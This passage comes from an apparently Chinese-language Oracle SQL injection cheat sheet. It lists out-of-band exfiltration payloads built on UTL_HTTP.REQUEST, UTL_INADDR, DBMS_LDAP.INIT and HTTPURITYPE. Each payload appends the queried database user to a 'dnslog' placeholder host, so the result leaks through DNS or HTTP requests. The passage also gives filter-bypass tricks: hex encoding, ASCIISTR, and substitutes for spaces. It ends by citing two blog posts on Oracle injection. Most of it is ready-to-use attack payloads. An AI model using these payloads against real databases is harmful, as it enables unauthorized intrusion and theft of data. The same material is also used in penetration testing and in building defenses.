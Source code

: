```sql
select utl_http.request('dnslog'||(select user from dual)) from dual;
```

- utl_inaddr.get_host_address

DNS 解析带外，把查询结果拼接到域名下，并使用 DNS 记录解析日志，获取查询结果。

```sql
select utl_inaddr.get_host_address((select user from dual)||'dnslog') from dual
```

- SYS.DBMS_LDAP.INIT

在 Oracle 10g 和 11g 里面只需要 public 权限。

```sql
SELECT DBMS_LDAP.INIT(('dnslog', 80) FROM DUAL;
```

- HTTPURITYPE

HTTPURITYPE 根据给定的 URI 创建一个实例

```sql
SELECT HTTPURITYPE((select user from dual)||'dnslog').GETCLOB() FROM DUAL;
```


- Oracle <= 10g

```sql
UTL_INADDR.GET_HOST_ADDRESS
UTL_HTTP.REQUEST
HTTP_URITYPE.GETCLOB
DBMS_LDAP.INIT and UTL_TCP
```

### Bypass


- hextoraw() / rawtohex()

```mysql
SELECT hextoraw(rawtohex('test')) FROM dual
```

- ASCIICHAR()

```mysql
SELECT ASCIISTR('害') from dual -> \5BB3
```

- 空格绕过

`%0a`（换行）、`%0b`（Tab）、`%0c`（制表符）、`/*多行注释*/`、`/*!内联注释*/`、`--%0a`可用于替换空格。


**- 参看 -**

\[1\] [Oracle 注入指北 - Tr0y's blog](https://www.tr0y.wang/2019/04/16/Oracle%E6%B3%A8%E5%85%A5%E6%8C%87%E5%8C%97/index.html)
\[2\] [关于学习 Oracle 注入 - Oslo](https://xz.aliyun.com/t/7897)






